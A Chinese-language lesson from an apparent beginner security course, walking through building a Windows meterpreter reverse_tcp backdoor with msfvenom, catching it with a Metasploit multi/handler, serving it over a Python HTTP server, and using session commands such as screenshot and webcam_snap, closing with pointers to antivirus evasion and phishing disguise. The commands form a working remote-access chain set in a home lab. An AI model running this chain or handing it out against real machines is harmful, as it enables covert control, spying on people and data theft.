# 网络安全入门：P27：使用msfvenom生成后门木马 🛠️

在本节课中，我们将要学习如何使用Kali Linux中自带的强大工具Metasploit Framework（MSF）来生成后门木马。我们将从核心概念讲起，逐步演示生成、监听和连接后门的过程，并讨论在实际应用中面临的挑战，如免杀和钓鱼技术。

## 概述：认识Metasploit Framework

上一节我们介绍了网络安全的基本概念，本节中我们来看看一个核心工具。Metasploit Framework（MSF）是一款开源的漏洞利用和测试工具，它集成了各种平台上常见的溢出漏洞和流行的攻击载荷（Payload）。许多商业或开源的C2（命令与控制）平台都是基于MSF进行修改的，因为它开源且免费。



## 核心概念与准备工作

在开始生成木马之前，我们需要理解几个核心概念。反连制黑客服务器可能会被溯源，因此需要掌握反溯源技术，例如通过流量隐藏、多重代理或前置CDN等方式。这些技术并非一蹴而就，需要一个循序渐进的学习过程。

渗透测试工作充满挑战，不能指望一步登天。初学者可以从使用脚本开始，但长远来看，必须理解原理、学会修改甚至编写脚本。用好脚本是进入行业的起点，但持续学习才是关键。

现在，我们首先来看如何使用`msfvenom`工具生成后门木马。虽然历史上存在如“永恒之蓝”（MS17-010）这样的著名漏洞，但它主要影响已过时的Windows 7系统。因此，我们的重点将放在更具通用性的方法上。

## 生成后门木马：命令解析

以下是使用`msfvenom`生成一个Windows后门可执行文件的标准方法。理解这个命令的各个部分至关重要，因为它可以举一反三，应用于生成针对Linux或Android系统的后门。



```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<你的IP> LPORT=<监听端口> -f exe -o test.exe
```



这个命令包含几个关键选项和参数：



*   **`-p` (Payload)**: 攻击载荷。这是木马程序的核心部分，决定了其功能。其写法分为四个部分：
    *   `windows`: 目标操作系统。
    *   `x64`: 系统架构（32位为`x86`）。
    *   `meterpreter`: 载荷类型，这是一种高级的、可动态扩展的载荷。
    *   `reverse_tcp`: 连接方式，表示反向TCP连接（木马主动连接攻击者）。
*   **`LHOST`**: 监听主机的IP地址。**这是攻击者（我们）的IP地址**。在渗透测试中，我们通常不需要知道受害者的IP，就像诈骗分子不需要知道受害者的具体位置一样。
*   **`LPORT`**: 监听端口。可以是0到65535之间的任意端口，例如9999。
*   **`-f` (Format)**: 输出格式。例如`exe`代表Windows可执行文件，`elf`代表Linux可执行文件，`apk`代表Android安装包。
*   **`-o` (Output)**: 输出文件名。

理解了命令结构后，我们就可以进行实际操作了。



## 实战操作：生成与监听

上一节我们解析了生成命令，本节中我们来看看具体的操作步骤。

**1. 切换到Root用户并生成木马**

首先，在Kali Linux中打开终端。建议切换到`root`用户以避免权限问题。



```bash
sudo su -
# 或
sudo -i
```

接着，执行生成命令。请将`<你的IP>`替换为Kali虚拟机的IP地址（可使用`ip addr`或`ifconfig`命令查看）。

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.10 LPORT=4444 -f exe -o payload.exe
```



执行成功后，当前目录下会生成一个名为`payload.exe`的文件。

**2. 在MSF中设置监听器**

生成木马后，我们需要在攻击机上设置一个监听器来等待目标上线。这就像在鱼钩上放好鱼饵，然后投入水中等待。

打开一个新的终端窗口，输入以下命令进入MSF控制台：

```bash
msfconsole
```



进入后，使用以下模块并设置参数，这些参数必须与生成木马时使用的完全一致：



```bash
use exploit/multi/handler
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST 192.168.1.10
set LPORT 4444
run
```

执行`run`命令后，MSF会开始监听指定端口，终端界面会“卡住”，这表示正在等待连接，是正常现象。

## 传输木马与获取会话

现在，鱼钩（监听器）已经设好，我们需要将鱼饵（木马文件）送到“鱼”（目标机器）面前。一个简单的方法是使用Python快速开启一个HTTP服务，供目标下载。

在Kali中再打开一个终端，切换到存放`payload.exe`的目录，执行：

```bash
python3 -m http.server 8080
```

此命令会在当前目录启动一个端口为8080的简易Web服务器。假设Kali的IP是`192.168.1.10`，那么目标机器在浏览器中访问`http://192.168.1.10:8080/payload.exe`即可下载该文件。

当目标（在演示中，我们主动在虚拟机里运行它）运行了`payload.exe`后，查看MSF监听器的终端，你会看到类似以下的提示，表示一个新的Meterpreter会话已建立：



```
[*] Sending stage (200774 bytes) to 192.168.xxx.xxx
[*] Meterpreter session 1 opened (192.168.1.10:4444 -> 192.168.xxx.xxx:xxxxx)
```

此时，命令行提示符会变为 `meterpreter >`，这意味着我们已经成功控制了目标机器。

## Meterpreter会话的基本操作

成功获取Meterpreter会话后，我们可以执行许多操作。输入`?`或`help`可以查看所有可用命令。





以下是几个常用命令示例：



*   **截取屏幕**：`screenshot`
*   **获取摄像头快照**：`webcam_snap`
*   **上传文件到目标**：`upload /本地文件路径 C:\\目标路径\\`
*   **从目标下载文件**：`download C:\\目标文件路径 /本地保存路径`

例如，执行`screenshot`后，截图会保存在Kali的`/root`或`/home/kali`目录下。这些功能在渗透测试中可用于信息收集，例如通过定期截图监控用户活动。

## 面临的挑战与后续方向



虽然我们成功生成了木马并获得了控制权，但在真实场景中会面临两大挑战：

1.  **免杀（Antivirus Evasion）**：生成的默认木马很容易被现代杀毒软件（如Windows Defender、火绒、360等）检测并清除。这就需要学习免杀技术，例如对木马进行加壳、编码、混淆或利用白名单程序。
2.  **钓鱼（Phishing）**：如何让目标心甘情愿地运行我们的程序？直接让用户下载一个无名无图标的`exe`文件成功率极低。这就需要结合社会工程学，将木马伪装成正常的文档、软件安装包或图片等。





本节课中我们一起学习了使用`msfvenom`生成后门木马、使用`msfconsole`建立监听器以及基础的Meterpreter操作。这只是网络渗透测试的起点。要成为一名合格的安全研究员，后续必须深入钻研免杀技术、钓鱼手法、内网渗透、流量隐藏等更高级的主题。记住，这是一个需要不断学习和实践的领域。